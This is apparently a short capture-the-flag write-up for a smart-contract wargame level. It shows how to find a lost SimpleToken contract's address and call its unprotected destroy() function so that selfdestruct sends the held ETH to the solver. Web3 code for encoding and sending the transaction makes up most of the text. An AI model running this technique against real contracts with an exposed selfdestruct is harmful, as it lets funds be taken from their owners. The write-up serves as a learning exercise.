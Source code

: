 Firstly we need to get contract address. We can get it from etherscan, go to deployed contract address, search for deploy tx, go to details and there should be address
of `SimpleToken` contract.

If we have it we need to call `destroy()`, selfdestruct destroy contract and sends all ETH to given address.
To calculate function `data` needed to send tx we need to use `encodeFunctionCall`:
```
await web3.eth.abi.encodeFunctionCall({
    name: 'destroy',
    type: 'function',
    inputs: [{
        type: 'address',
        name: '_to'
    }]
}, ['0xd107AC5e5830BB95f880cA3b1270ccCdAA0A3c5e']); // parameter of function
```
That gives: `0x00f55d9d000000000000000000000000d107ac5e5830bb95f880ca3b1270cccdaa0a3c5e`

Now we are ready to call `destroy()`:
```
await web3.eth.sendTransaction({
    to: '0xe2A57AA386552e41B350fFAC1526AeFBFA5F7da4',
    data: '0x00f55d9d000000000000000000000000d107ac5e5830bb95f880ca3b1270cccdaa0a3c5e',
    from: '0xd107AC5e5830BB95f880cA3b1270ccCdAA0A3c5e'
})
```
